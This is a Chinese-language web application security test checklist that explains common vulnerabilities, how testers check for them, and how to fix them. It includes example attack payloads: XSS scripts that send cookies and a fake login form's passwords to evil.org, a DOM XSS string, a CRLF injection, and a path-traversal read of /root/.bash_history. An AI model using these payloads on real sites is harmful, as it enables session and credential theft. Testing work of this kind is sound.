



## 大类检查点





## 测试项详细说明

 * 上传功能
 * 
 

 *绕过文件上传检查功能

 *上传文件大小和次数限制

注册功能

注册请求是否安全传输

注册时密码复杂度是否后台校验

激活链接测试

重复注册

批量注册问题

 


 


 登录功能

登录请求是否安全传输

会话固定：Session fixation attack(会话固定攻击)是利用服务器的session不变机制，借他人之手获得认证和授权，然后冒充他人。

关键cookie是否HTTPONLY：如果Cookie设置了HttpOnly标志，可以在发生XSS时避免JavaScript读取Cookie。

但很多Cookie需要给前端JS使用。所以这里只需要关注关键Cookie,即唯一标识用户及登录状态的会话标识需要添加这个属性。

登录请求错误次数限制

“记住我”功能：勾选“记住我”后，Cookie中记录了用户名和密码信息。。。

本地存储敏感信息

 验证码功能

 


验证码的一次性

验证码绕过

短信验证码轰炸：如果这个接口没有限制策略，就会被人恶意利用

 

忘记密码功能

通过手机号找回：不过由于程序设计不合理，导致可以绕过短信验证码，从而修改别人的密码。（使用burpsuite抓包，修改响应值true）

通过邮箱找回

密码安全性要求

密码复杂度要求

密码保存要求

 横向越权测试

不同用户之间session共享，可以非法操作对方的数据。

纵向越权测试

很多应用简单的通过前端判断，或者低权限角色看不到对应的菜单，但并未在后台去做当前登录用户是否有权限。

 

XSS测试

跨站脚本攻击(Cross Site Scripting)：恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

反射型XSS：

*  利用请求参数param2，进行XSS注入，设置js等可执行或可跳转语句。param2=<script>document.write('<imgsrc="http://evil.org?grabcookie.jsp?cookie='+encodeURI(document.cookie)+'"/>')</script>。

这个网站的已登录用户去点击，cookie会被发送到 evil.org 上去。


处理意见：对特殊字符转义输出，特别是'"<>这几个。

 

存储型XSS：

 在论坛上发表帖子，假设论坛有漏洞，可以在帖子中注入下面的JS内容：

 ```sh
<script>


document.body.innerHTML="<h1>PleaseLogin</h1><form


action=http://evil.org/grabpassword.jspmethod=post><br>User name:<input type=text


name=user><br>Password:<inputtype=text name=password></p><input type=submit


name=login></form>


</script>
```
当其他用户浏览该帖子时，就会弹出登录框，如图（用户名+密码登陆界面）。


 


这是页面中注入的XSS生成的，如果您输入了账号密码，那就被发送给黑客了。


处理意见：对特殊字符转义输出，特别是如下几个'"<>

 


DOM型XSS

基于DOM型XSS样例，相比较与Reflected、Stored XSS属于server side execution issues而言，DOM based XSS 是client(browser)side execution issue。

 


 


Step1：如下面请求的hash部分，由客户端JS动态执行产生XSS注入。


http://www.webapp.com/example.jsp?param1=value1#\u003ciframeοnlοad=alert('xss')\u003e

 


Step2：动态生成：<divid="m"><iframeοnlοad="alert('xss')"></iframe></div>


 


这个比较难测试，一般需要阅读页面中的JS代码，去分析。没有固定的测试步骤，还是需要大家自己多学习。不作为强制项，WebInspect扫过即可。


处理意见：对特殊字符转义输出，特别是'"<>。


 


SQL注入测试

 


SQL注入攻击的基本原理是通过构建特殊的输入参数，迫使后台数据库执行额外的SQL语句，从而达到获取数据库数据的目的。


这些输入参数往往包含恶意的SQL注入语句，后台处理程序没有对这些参数进行过滤，且所使用的数据库查询手段为拼接方式，进而导致敏感数据外泄。


在动态构造SQL语句的过程中，除了特殊字符处理不当引起的SQL注入之外，错误处理不当也会为Web站点带来很多安全隐患。


最常见的问题就是将详细的内部错误信息显示给攻击者。这些细节会为攻击者提供与网站潜在缺陷相关的重要线索。


在SQL注入的过程中，如果Web服务器关闭了错误回显，那么是不是就安全了呢？答案显然是否定的，攻击者仍然可以通过 "盲注"技巧测试SQL命令是否注入成功。


 


所谓"盲注"就是在服务器没有错误回显时完成的注入方式，攻击者必须找到一个方法来验证注入的SQL语句是否执行。


"盲注"主要分为两种类型：基于时间的盲注和布尔盲注。


 


测试方法（黑盒）：sqlmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，


 


测试方法（白盒）：如果项目的数据库持久层框架是mybatis，并且他的sqlmap中编写方式都是使用#{xxx}方式，而非使用${xxx}方式，就不存在SQl注入问题。


注：sqlMap中尽量不要使用$;$使用的是Statement（拼接字符串），会出现注入问题。#使用的是PreparedStatement（类似于预编译），将转义交给了数据库，不会出现注入问题；前者容易出现SQL注入之类的安全问题，所以mybatis推荐使用#。


写接口限制测试

比如：找回密码的邮件。多次调用，造成邮件轰炸。

新增的接口，如写文章、上传文件等。这些接口如果没有任何限制，那么恶意用户使用程序无限循环的调用接口，就会写入大量的数据。通过并发、循环方式上传大量文件，填满磁盘，消耗服务器资源。

修复建议：对写入量大的接口（如上传）做必要的限制。

CSRF测试

CSRF（Cross-site requestforgery），中文名称：跨站请求伪造。用户C在为退出A的情况下，浏览B，B使用C的session非法访问A。


 


 


检查：


Ø  是否有防御CSRF的随机数。验证码、csrf_token等都是。 有则 （通过）


Ø  是否验证referer。有则（通过）


Ø  请求的参数均可推测，无CSRF防御机制。（不通过）


测试中，需要对所有写接口检查，可以采用如下方式，记录接口，标记是否已检查。


修复建议：


Ø  方法1：验证码


验证码制用户必须与应用进行交互，才能完成最终请求。因此在通常情况下，验证码能够很好地遏制CSRF攻击。


但是这种方式易用性方面似乎不是太好，并且对于简单的图形验证码也有很多绕过机制。防御CSRF的一种辅助手段


 


Ø  方法2：Referer 验证


 


当浏览器发送一个HTTP请求时一般都会在Referer中表明发起请求的URL。


通过Referer我们可以通过判断一个请求是否为同域下发起的来防御CSRF，但是Referer可能会包含一些敏感信息甚至在某些情况下能够被伪造。


因此我们无法依赖于Referer来作为防御CSRF的主要手段，但是可以通过Referer来监控CSRF攻击的发生。


Ø  方法3：Token验证


在请求原参数不变的条件下，新增了一个随机的、不可预测参数Token是目前最普遍有效的方式。


后端在对数据处理前会首先对Token参数进行验证，只有用户请求中的Token与用户Session（或Cookie）中的Token一致时，才会认为请求是合法的。


由于Token的存在，攻击者就无法构造一个完整的请求实施CSRF攻击，从而保证了网站或系统的安全。


 


敏感信息泄露

 


SVN信息泄露：有数据库账号和密码等信息；


页面泄露敏感信息：有些WEB应用，在返回给客户端的响应中，包含了敏感信息，例如密码。


源码泄露​​​​​​​


 

 目录遍历

在web应用中，如下图所示的显示目录文件列表，会带来一定的安全隐患（服务器文件列表）。


测试方法：


此类问题可以通过WebInspect\AppScan\AWVS等web安全扫描器自动化发现。所以可以使用扫描器去做这类问题的检查。然后人工确认问题是否误报。


目录遍历的危害，大部分是低危的，但也有高危、甚至严重的问题，需要视被列出的文件情况而定。


修复建议：


如果是apache，可以在httpd.conf中修改配置


 


 CRLF

CRLF就是HTTP响应头拆分漏洞。是对用户输入的CR 和LF字符没有进行严格的过滤导致的。


在测试中，请求中的参数被直接用在响应的头信息中时，我们就需要测试此类问题。


在请求的参数中加入%0A%0Dtest:%20key=value等，看响应中是否会增加新的响应头。


会增加（不通过）

不会增加（通过）

修复建议：


过滤CR和LF字符。或者转义。


 


任意文件读取

问题描述：


这里举一个某产品的例子，推送平台


在添加应用页面，上传应用图标后，发现图标对应的URL地址为：


http://www.wukongtui.com/self_help/upload/downloadfile?filename=ico1449665436666.png


该地址具备任意文件读取特征，所以尝试读取/root/.bash_history。


测试方法：


一般遇到类似的读取文件的URL，可以修改参数比如上面的filename指向服务器上存在的其他文件，可以利用目录穿越（..），如果不加限制，就可以读取服务器的敏感信息。


很多安全问题，没有固定的思路，大家可以多学习：下面链接都是任意文件读取的漏洞。


http://www.secpulse.com/archives/tag/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96


再如：resin的任意文件读取问题：


http://www.360doc.com/content/06/0901/14/10268_196116.shtml


修复建议：


对这类问题是对文件名做过滤，一般不允许跨目录（/../..）这类字符。


框架类的问题，我们通用项中不做测试，这个计划后续通过自己开发扫描工具，全网扫描。


 


 


URL重定向

问题描述：


未验证的URL重定向，可以用来钓鱼。如下例子：


http://www.163.com/go.do?url=http://evil.com


假设可以跳转到http://evil.com


可以利用用户对http://www.163.com地址的信任，在http://evil.com页面进行钓鱼。


所以需要对url参数进行验证。


比如，跳转仅限于网易名下的域名，则可以利用正则表达式判断url参数的合法性。仅供demo参考


^http(s)?://([\w-]*\.)*((163\.com)|(126\.com)|(yeah\.net)|(188\.com)|(youdao\.com)|(netease\.com)|(lofter\.com))(:\d*)?(/.*)?$


上面的正则判断前，先将目标字符串转换为小写，再比较。


url@url


比如在浏览器中输入http://www.163.com@www.baidu.com


浏览器打开的是http://www.baidu.com的网页。


利用这个特性，我们可以进行钓鱼。


解决的方法依然是对参数进行检查，上面提到的正则表达式能够解决该类问题。


测试方法：


略。可以采用扫描器执行，如WebInspect。此类问题属于P2等级，不做必测项目。


修复建议：


略。参考问题描述部分。


 


​​​​​​​无鉴权访问接口

问题描述：


部分API接口未作鉴权限制，使用户不需要登录即可访问，可造成系统或者用户信息泄漏；


测试方法：


使用burpsuite拦截用户访问API请求，删除sessionid信息，继续访问，访问成功测试不通过；


修复建议：


在服务端限制所有的接口均需要鉴权访问；


 


点击劫持ClickJacking

什么是点击劫持

点击劫持是一种视觉上的欺骗手段。攻击者使用一个透明的、不可见的iframe，覆盖在一个网页上，然后诱使用户在该网页上进行操作，此时用户将在不知情的情况下点击透明的iframe页面。通过调整iframe页面的位置，可以诱使用户恰好点击在iframe页面的一些功能性按钮上。


Frame busting

通常可以写一段JavaScript代码，以禁止iframe的嵌套。这种方法叫frame busting。比如下面这段代码：


X-Frame-Options

因为frame busting存在被绕过的可能，所以我们需要寻找其他更好的解决方案。一个比较好的方案是使用一个HTTP头--X-Frame-Options。


X-Frame-Options可以说是为了解决ClickJacking 而生的。


 


XXE

什么是XXE

XML External Entity Injection（简称XXE Injection）是指后台程序在对XML格式的参数或文件进行解析时，由于没有控制外部实体的引入，所造成的安全漏洞。XXE漏洞所引起的主要安全风险有：


远程文件读取。

服务器端请求伪造(Server-Side Request Forgery)。

DOS攻击。

任意代码执行（PHP环境）。

XXE攻击案例

STEP1:确定攻击点


以下是某平台对外提供的服务接口，参数格式为xml，这种格式的请求有可能会触发后台的XXE漏洞。


STEP2:检测是否支持外部实体


XXE问题测试

如果我们的接口请求参数格式是XML格式，或者我们的应用程序支持解析客户上传的XML文件，那么我们就需要考虑此类测试。


至于怎么测试？可以参考攻击案例。


XXE的防御

禁止外部实体的解析


检查所使用的底层XML解析库，默认禁止外部实体的解析，以Java的XML解析代码


为例：


 


SSRF

什么是SSRF

 


web应用根据用户指定的URL地址获取图片，下载文件等功能。但是，如果应用程序没有对用户提供的URL地址与远端服务器返回信息没有进行验证和过滤，就有可能被利用作为代理攻击远程和本地服务器。这种攻击形式称为服务端请求伪造攻击（Server-side Request Forgery）。


 


常见出现该问题的功能：


l 分享：通过URL地址分享网页内容

l 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

l 图片加载与下载：通过URL地址加载或下载图片

l 图片、文章收藏功能

l 其他通过使用API获取URL的功能

 


排查与修复

过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

限制请求的端口为http常用的端口，比如，80,443,8080,8090。

黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。


CORS问题

CORS简介：

SOP(就是Same Origin Policy)同源策略。


AJAX不能跨域访问。


http://www.a.com/a.html 中使用AJAX读取http://www.a.com/test.html 中的内容，OK。

http://www.a.com/a.html 中使用AJAX读取http://www.b.com/test.html 中的内容，FAIL。

CORS (Cross Origin Resources Sharing)，即跨域资源共享。


CORS就是为了让AJAX可以实现可控的跨域访问而生的。


在www.b.com/test.html中开头加上


<?php


header("Access-Control-Allow-Origin: http://www.a.com");


?>


这样


http://www.a.com/a.html 中使用AJAX读取http://www.b.com/test.html 中的内容，OK。


在apache中设置


DocumentRoot "E:/xampp/htdocs"


Header set Access-Control-Allow-Origin "www.a.com"

